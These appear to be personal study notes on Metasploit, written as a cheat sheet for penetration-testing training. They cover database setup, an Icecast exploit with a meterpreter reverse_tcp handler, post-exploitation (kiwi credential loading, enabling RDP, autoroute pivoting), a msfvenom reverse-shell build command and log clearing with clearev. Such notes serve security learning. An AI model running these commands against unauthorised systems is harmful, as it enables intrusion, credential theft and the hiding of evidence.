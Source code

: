 ## Metasploit
?  help alias

## Initialize database

msfdb init

-q  // **no banner**

db_status   // **db status**

connect  // **quick check**

set 

setg  

get 

unset 


spool   // output to a file


save    // save settings



-----------------

## Modules



exploit  //  payload // encoder // NOP // auxiliary


encoder - modify appearance of exploit

NOP - buffer overflow


db_nmap  - **feeds directly into db**

nmap  - just nmap

good to run after db_nmap:
hosts
services
vulns


## example with icecast


```use exploit/windows/http/icecast_header


search multi/handler

use <@#> exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

run -j     //  (-j run as job) 
```



Interact with a session

`sessions -i <SESSION_NUMBER>`


List jobs

`jobs -l`

after connecting, run ps to view processes

we see spoolsv.exe

`migrate <pid>`


doesn't work 


getuid

sysinfo

load kiwi

get privs

upload 

run 

ipconfig

## POST 

`post/windows/gather/checkvm`   // checks if we are in a VM

`run post/multi/recon/local_exploit_suggester`

`run post/windows/manage/enable_rdp`  // need admin 

`shell`    // spawn a normal system shell


CISCO  

run autoroute -h


run autoroute -s 172.18.1.0 -n 255.255.255.0


search server/socks5


auxiliary/server/socks5






# msfvenom

```msfvenom -p <PAYLOAD> <OPTIONS>```


```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>```


**staged**- good for ids detection, first stage just connects, second stage downloads code


**stageless** - most common, all in one, 

meterpreter shell  -  must be used in msf, banned from certain certifications



```<OS>/<arch>/<payload>```

linux/x86/shell_reverse_tcp


camel case = **stageless**

backslash = **staged**



```msfvenom --list payloads | grep "<OS>/<arch>/<payload>"```


# meterpreter

https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

to upgrade regular shell to meterpreter shell use

post/multi/manage/shell_to_meterpreter


`clearev`	 will clear the Application, System, and Security logs on a Windows system.











